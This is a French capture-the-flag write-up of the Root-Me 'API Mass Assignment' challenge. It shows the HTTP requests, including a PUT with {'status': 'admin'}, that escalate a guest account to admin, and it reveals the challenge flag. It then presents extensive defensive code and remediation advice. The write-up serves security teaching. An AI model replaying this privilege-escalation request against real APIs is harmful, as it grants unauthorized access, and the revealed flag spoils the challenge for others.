

# Root-Me – Challenge 11 : API Mass Assignment

## 1. Nom du challenge & URL

**Nom** : Challenge 11 – API Mass Assignment

**URL** : [Root-Me Challenge 11](https://www.root-me.org/fr/Challenges/Web-Serveur/API-Mass-Assignment)

---

## 2. Objectif

Le but du challenge est d'exploiter une **vulnérabilité de Mass Assignment** dans une API REST pour élever nos privilèges de `guest` à `admin` et accéder au flag.

**Énoncé du challenge** :

> Your friend thanks you for your previous vulnerability report, and assures you that this time he has removed the possibility of accessing notes, and has even created an administration role!

**Type d'attaque** : Mass Assignment / Parameter Pollution

---

## 3. Qu'est-ce que le Mass Assignment ?

Le **Mass Assignment** (affectation en masse) est une vulnérabilité qui se produit lorsqu'une application permet à un utilisateur de modifier des attributs d'objets qui ne devraient pas être accessibles. 

### Comment ça fonctionne ?

1. L'application utilise des frameworks qui lient automatiquement les paramètres HTTP aux propriétés d'objets
2. L'attaquant ajoute des paramètres supplémentaires non prévus (comme `role`, `isAdmin`, `status`)
3. Si ces paramètres ne sont pas filtrés, ils sont assignés à l'objet
4. L'attaquant peut ainsi modifier son rôle ou d'autres attributs sensibles

**Exemple** :

```javascript
// Code vulnérable
app.put('/user', (req, res) => {
    // Assigne TOUS les paramètres reçus à l'utilisateur
    Object.assign(user, req.body);
    user.save();
});
```

Un attaquant pourrait envoyer : `{"username": "test", "status": "admin"}` pour se donner les privilèges admin.

---

## 4. Étapes de découverte de la vulnérabilité

### 4.1. Analyse initiale de l'application

En accédant au challenge et en naviguant sur les différentes pages, on découvre plusieurs fonctionnalités :

1. **Signup** - Création de compte
2. **Login** - Connexion
3. **User** - Profil utilisateur
4. **Note** - Gestion de notes
5. **Flag** - Page protégée contenant le flag

### 4.2. Création d'un compte et exploration

On commence par créer un compte de test :

```
Username: xx
Password: 11
```

Après la connexion, on explore chaque fonctionnalité en interceptant les requêtes avec **Burp Suite**.

### 4.3. Analyse des requêtes API

#### Requête GET /user

```http
GET /web-serveur/ch123/user HTTP/1.1
Host: challenge01.root-me.org
Cookie: session=...
```

**Réponse** :

```json
{
  "username": "xx",
  "status": "guest",
  "id": 123
}
```

**Observation importante** : L'utilisateur a un attribut `status` avec la valeur `"guest"`.

#### Requête GET /flag

```http
GET /web-serveur/ch123/flag HTTP/1.1
Host: challenge01.root-me.org
Cookie: session=...
```

**Réponse** :

```json
{
  "error": "Access denied. Admin privileges required."
}
```

**Conclusion** : On a besoin du statut `admin` pour accéder au flag.

### 4.4. Test de changement de méthode HTTP

On essaie de changer la méthode HTTP de **GET** à **POST** pour voir comment l'API réagit :

```http
POST /web-serveur/ch123/user HTTP/1.1
Host: challenge01.root-me.org
Cookie: session=...
```

**Réponse** :

```http
HTTP/1.1 405 Method Not Allowed
Allow: GET, PUT, HEAD, OPTIONS
```

**Découverte importante** : L'API permet les méthodes **PUT**, **GET**, **HEAD**, et **OPTIONS**.

### 4.5. Compréhension des méthodes HTTP

| Méthode     | Description               | Usage                                           |
| ----------- | ------------------------- | ----------------------------------------------- |
| **GET**     | Lire des données          | Consulter les informations utilisateur          |
| **POST**    | Créer des données         | Généralement pour créer de nouvelles ressources |
| **PUT**     | Mettre à jour des données | Modifier les informations existantes            |
| **DELETE**  | Supprimer des données     | Supprimer des ressources                        |
| **HEAD**    | Vérifier l'existence      | Obtenir les métadonnées sans le corps           |
| **OPTIONS** | Méthodes autorisées       | Découvrir les méthodes HTTP disponibles         |

La méthode **PUT** est intéressante car elle permet de **modifier des données** !

### 4.6. Test de la méthode PUT

On essaie d'envoyer une requête **PUT** :

```http
PUT /web-serveur/ch123/user HTTP/1.1
Host: challenge01.root-me.org
Cookie: session=...
```

**Réponse** :

```json
{
  "error": "Invalid Content-Type. Expected application/json"
}
```

L'API attend du JSON ! On ajoute le header **Content-Type**.

### 4.7. Ajout du Content-Type

```http
PUT /web-serveur/ch123/user HTTP/1.1
Host: challenge01.root-me.org
Content-Type: application/json
Cookie: session=...

{}
```

**Réponse** :

```json
{
  "error": "Missing required parameter: status"
}
```

Excellent ! L'API nous dit qu'elle attend un paramètre `status`.

---

## 5. Exploitation de la vulnérabilité

### 5.1. Tentative de modification du statut

On envoie une requête PUT avec un statut personnalisé pour tester :

```http
PUT /web-serveur/ch123/user HTTP/1.1
Host: challenge01.root-me.org
Content-Type: application/json
Cookie: session=...

{
  "status": "ccc"
}
```

**Réponse** :

```json
{
  "success": true,
  "message": "User status updated successfully"
}
```

### 5.2. Vérification de la modification

On vérifie avec une requête **GET** si le statut a bien changé :

```http
GET /web-serveur/ch123/user HTTP/1.1
Host: challenge01.root-me.org
Cookie: session=...
```

**Réponse** :

```json
{
  "username": "xx",
  "status": "ccc",
  "id": 123
}
```

**Succès !** Le statut a été modifié à `"ccc"`. Cela confirme la **vulnérabilité de Mass Assignment**.

### 5.3. Élévation de privilèges vers admin

Maintenant qu'on sait qu'on peut modifier le statut, on essaie de le changer en `"admin"` :

```http
PUT /web-serveur/ch123/user HTTP/1.1
Host: challenge01.root-me.org
Content-Type: application/json
Cookie: session=...

{
  "status": "admin"
}
```

**Réponse** :

```json
{
  "success": true,
  "message": "User status updated successfully"
}
```

### 5.4. Vérification des privilèges admin

On vérifie à nouveau notre profil :

```http
GET /web-serveur/ch123/user HTTP/1.1
Host: challenge01.root-me.org
Cookie: session=...
```

**Réponse** :

```json
{
  "username": "xx",
  "status": "admin",
  "id": 123
}
```

**Parfait !** On a maintenant le statut `admin`.

### 5.5. Accès au flag

Maintenant qu'on est admin, on peut accéder à la page `/flag` :

```http
GET /web-serveur/ch123/flag HTTP/1.1
Host: challenge01.root-me.org
Cookie: session=...
```

**Réponse** :

```json
{
  "flag": "RM{4lw4yS_ch3ck_0pt10ns_m3th0d}"
}
```

**Succès !** On a récupéré le flag.

---

## 6. Payload final utilisé

Voici la séquence complète des requêtes utilisées :

### Étape 1 : Découverte des méthodes autorisées

```http
OPTIONS /web-serveur/ch123/user HTTP/1.1
Host: challenge01.root-me.org
```

### Étape 2 : Consultation du profil initial

```http
GET /web-serveur/ch123/user HTTP/1.1
Host: challenge01.root-me.org
Cookie: session=...
```

### Étape 3 : Modification du statut en admin

```http
PUT /web-serveur/ch123/user HTTP/1.1
Host: challenge01.root-me.org
Content-Type: application/json
Cookie: session=...

{
  "status": "admin"
}
```

### Étape 4 : Récupération du flag

```http
GET /web-serveur/ch123/flag HTTP/1.1
Host: challenge01.root-me.org
Cookie: session=...
```

---

## 7. Résultat obtenu

Après avoir exploité la vulnérabilité de Mass Assignment, on obtient le flag :

**Le flag est** : `RM{4lw4yS_ch3ck_0pt10ns_m3th0d}`

Le message du flag suggère : **"Always check OPTIONS method"** - toujours vérifier la méthode OPTIONS !

Le challenge est validé !



---

## 8. Screenshot

Voici un screenshot prouvant que le challenge est terminé :


---

## 9. Analyse technique approfondie

### 9.1. Cycle d'exploitation complet

```
1. Création de compte (guest)
   ↓
2. Découverte de l'attribut "status"
   ↓
3. Test de la méthode PUT
   ↓
4. Modification du status vers "admin"
   ↓
5. Accès au flag avec privilèges admin
```

### 9.2. Pourquoi la vulnérabilité existe ?

Le code côté serveur utilise probablement un binding automatique sans filtrage :

**Code vulnérable (Node.js/Express)** :

```javascript
app.put('/user', async (req, res) => {
    const userId = req.session.userId;
    const user = await User.findById(userId);
    
    // DANGER : Assigne TOUS les paramètres du body
    Object.assign(user, req.body);
    
    await user.save();
    res.json({ success: true });
});
```

### 9.3. Attributs sensibles couramment ciblés

Dans les attaques de Mass Assignment, les attaquants ciblent souvent ces attributs :

| Attribut      | Description          | Exemple d'exploitation                       |
| ------------- | -------------------- | -------------------------------------------- |
| `role`        | Rôle utilisateur     | `"role": "admin"`                            |
| `status`      | Statut du compte     | `"status": "admin"`                          |
| `isAdmin`     | Booléen admin        | `"isAdmin": true`                            |
| `permissions` | Liste de permissions | `"permissions": ["read", "write", "delete"]` |
| `verified`    | Compte vérifié       | `"verified": true`                           |
| `credits`     | Crédit/monnaie       | `"credits": 999999`                          |
| `price`       | Prix d'un produit    | `"price": 0`                                 |

### 9.4. Différence entre Mass Assignment et IDOR

| Mass Assignment                        | IDOR                                         |
| -------------------------------------- | -------------------------------------------- |
| Modification d'attributs non autorisés | Accès à des ressources d'autres utilisateurs |
| Exploit via paramètres supplémentaires | Exploit via modification d'ID                |
| `{"status": "admin"}`                  | `GET /user/123` → `GET /user/456`            |
| Modification de son propre objet       | Accès aux objets d'autrui                    |

---

## 10. Recommandations pour sécuriser la vulnérabilité

Pour corriger cette vulnérabilité de Mass Assignment, il faut implémenter les mesures suivantes :

### 10.1. Utiliser une liste blanche de paramètres autorisés

**Code vulnérable** :

```javascript
app.put('/user', async (req, res) => {
    const user = await User.findById(req.session.userId);
    Object.assign(user, req.body); // DANGER
    await user.save();
});
```

**Code sécurisé** :

```javascript
app.put('/user', async (req, res) => {
    const user = await User.findById(req.session.userId);
    
    // Liste blanche des champs modifiables
    const allowedFields = ['username', 'email', 'bio'];
    
    allowedFields.forEach(field => {
        if (req.body[field] !== undefined) {
            user[field] = req.body[field];
        }
    });
    
    await user.save();
    res.json({ success: true });
});
```

### 10.2. Utiliser des DTOs (Data Transfer Objects)

Créer des objets dédiés pour la validation [1] [2] :

```javascript
class UpdateUserDTO {
    constructor(data) {
        // Seulement les champs autorisés
        this.username = data.username;
        this.email = data.email;
        this.bio = data.bio;
        
        // Les champs sensibles sont ignorés
        // this.status, this.role, this.isAdmin ne sont jamais assignés
    }
}

app.put('/user', async (req, res) => {
    const dto = new UpdateUserDTO(req.body);
    const user = await User.findById(req.session.userId);
    
    Object.assign(user, dto);
    await user.save();
});
```

### 10.3. Utiliser des bibliothèques de validation

Implémenter une validation stricte avec des outils comme **Joi** ou **express-validator** [2] [3] :

```javascript
const { body, validationResult } = require('express-validator');

app.put('/user', 
    // Validation
    body('username').isString().isLength({ min: 3, max: 20 }),
    body('email').isEmail(),
    body('bio').optional().isString().isLength({ max: 500 }),
    
    // Interdire explicitement les champs sensibles
    body('status').not().exists(),
    body('role').not().exists(),
    body('isAdmin').not().exists(),
    
    async (req, res) => {
        const errors = validationResult(req);
        if (!errors.isEmpty()) {
            return res.status(400).json({ errors: errors.array() });
        }
        
        // Traitement...
    }
);
```

### 10.4. Utiliser des méthodes spécifiques de l'ORM

Les ORMs modernes offrent des méthodes sécurisées [3] [4] :

```javascript
// Sequelize (Node.js)
await user.update(
    {
        username: req.body.username,
        email: req.body.email
    },
    {
        fields: ['username', 'email'] // Seuls ces champs peuvent être modifiés
    }
);

// Mongoose (Node.js)
const user = await User.findById(req.session.userId);
user.set({
    username: req.body.username,
    email: req.body.email
});
await user.save();
```

### 10.5. Séparer les attributs publics et privés

Utiliser des propriétés protégées [1] [4] :

```javascript
class User {
    // Propriétés modifiables par l'utilisateur
    public username;
    public email;
    public bio;
    
    // Propriétés protégées (non modifiables directement)
    private status;
    private role;
    private isAdmin;
    
    // Méthode contrôlée pour changer le rôle
    setRole(newRole, adminUser) {
        if (adminUser && adminUser.isAdmin) {
            this.role = newRole;
        } else {
            throw new Error('Unauthorized');
        }
    }
}
```

### 10.6. Implémenter un système RBAC (Role-Based Access Control)

Contrôler strictement les permissions [2] [5] :

```javascript
const permissions = {
    guest: ['read:profile', 'update:own-profile'],
    user: ['read:profile', 'update:own-profile', 'create:notes'],
    admin: ['*'] // Toutes les permissions
};

function hasPermission(user, action) {
    const userPermissions = permissions[user.role] || [];
    return userPermissions.includes(action) || userPermissions.includes('*');
}

app.put('/user/:id', async (req, res) => {
    if (!hasPermission(req.user, 'update:user')) {
        return res.status(403).json({ error: 'Forbidden' });
    }
    
    // Traitement...
});
```

### 10.7. Auditer et logger les modifications de privilèges

Enregistrer toutes les tentatives de modification de rôle [4] [5] :

```javascript
async function updateUserStatus(userId, newStatus, requestingUser) {
    // Logger la tentative
    await AuditLog.create({
        action: 'UPDATE_USER_STATUS',
        userId: userId,
        oldStatus: user.status,
        newStatus: newStatus,
        requestedBy: requestingUser.id,
        timestamp: new Date(),
        ip: req.ip
    });
    
    // Vérifier les permissions
    if (!requestingUser.isAdmin) {
        await SecurityAlert.create({
            type: 'PRIVILEGE_ESCALATION_ATTEMPT',
            userId: requestingUser.id,
            severity: 'HIGH'
        });
        throw new Error('Unauthorized');
    }
    
    // Modifier le statut
    user.status = newStatus;
    await user.save();
}
```

### 10.8. Désactiver les méthodes HTTP non nécessaires

Limiter les méthodes HTTP disponibles [1] [3] :

```javascript
// Middleware pour restreindre les méthodes
app.use('/user', (req, res, next) => {
    const allowedMethods = ['GET', 'HEAD'];
    
    if (!allowedMethods.includes(req.method)) {
        return res.status(405).json({ 
            error: 'Method Not Allowed',
            allowedMethods: allowedMethods 
        });
    }
    
    next();
});

// Route séparée et sécurisée pour les modifications
app.post('/user/update', requireAuth, validateInput, async (req, res) => {
    // Traitement sécurisé
});
```

### 10.9. Implémenter la vérification à deux niveaux

Valider côté client ET côté serveur [2] [5] :

```javascript
// Côté serveur - Validation stricte
app.put('/user', async (req, res) => {
    // 1. Vérifier l'authentification
    if (!req.session.userId) {
        return res.status(401).json({ error: 'Unauthorized' });
    }
    
    // 2. Valider le format des données
    const schema = Joi.object({
        username: Joi.string().min(3).max(20),
        email: Joi.string().email()
    });
    
    const { error, value } = schema.validate(req.body);
    if (error) {
        return res.status(400).json({ error: error.details });
    }
    
    // 3. Vérifier que seuls les champs autorisés sont présents
    const allowedKeys = ['username', 'email'];
    const receivedKeys = Object.keys(req.body);
    const unauthorizedKeys = receivedKeys.filter(k => !allowedKeys.includes(k));
    
    if (unauthorizedKeys.length > 0) {
        await SecurityLog.create({
            type: 'MASS_ASSIGNMENT_ATTEMPT',
            userId: req.session.userId,
            unauthorizedKeys: unauthorizedKeys
        });
        
        return res.status(400).json({ 
            error: 'Unauthorized fields detected',
            fields: unauthorizedKeys 
        });
    }
    
    // 4. Appliquer les modifications
    const user = await User.findById(req.session.userId);
    user.username = value.username;
    user.email = value.email;
    await user.save();
    
    res.json({ success: true });
});
```

### 10.10. Tests de sécurité automatisés

Implémenter des tests pour détecter les vulnérabilités [4] [5] :

```javascript
// Test unitaire
describe('User Update Endpoint', () => {
    it('should reject attempts to modify status field', async () => {
        const response = await request(app)
            .put('/user')
            .set('Cookie', userSession)
            .send({
                username: 'newname',
                status: 'admin' // Tentative d'élévation de privilèges
            });
        
        expect(response.status).toBe(400);
        expect(response.body.error).toContain('Unauthorized field');
    });
    
    it('should not persist unauthorized fields', async () => {
        await request(app)
            .put('/user')
            .set('Cookie', userSession)
            .send({
                username: 'newname',
                role: 'admin'
            });
        
        const user = await User.findById(userId);
        expect(user.role).not.toBe('admin');
        expect(user.role).toBe('guest'); // Valeur initiale conservée
    });
});
```

---

## 11. Références

[1] [OWASP – Mass Assignment](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05-Testing_for_Mass_Assignment) - Guide OWASP sur le Mass Assignment

[2] [OWASP API Security Top 10 - API6:2019 Mass Assignment](https://owasp.org/www-project-api-security/) - Risques de sécurité API

[3] [CWE-915: Improperly Controlled Modification of Dynamically-Determined Object Attributes](https://cwe.mitre.org/data/definitions/915.html) - Description CWE

[4] [Mass Assignment Vulnerabilities](https://cheatsheetseries.owasp.org/cheatsheets/Mass_Assignment_Cheat_Sheet.html) - OWASP Cheat Sheet

[5] [API Security Best Practices](https://github.com/OWASP/API-Security/blob/master/2019/en/dist/owasp-api-security-top-10.pdf) - Guide de sécurité API

[6] [Rails Mass Assignment Security](https://guides.rubyonrails.org/security.html#mass-assignment) - Exemple Ruby on Rails

[7] [Express.js Security Best Practices](https://expressjs.com/en/advanced/best-practice-security.html) - Bonnes pratiques Express.js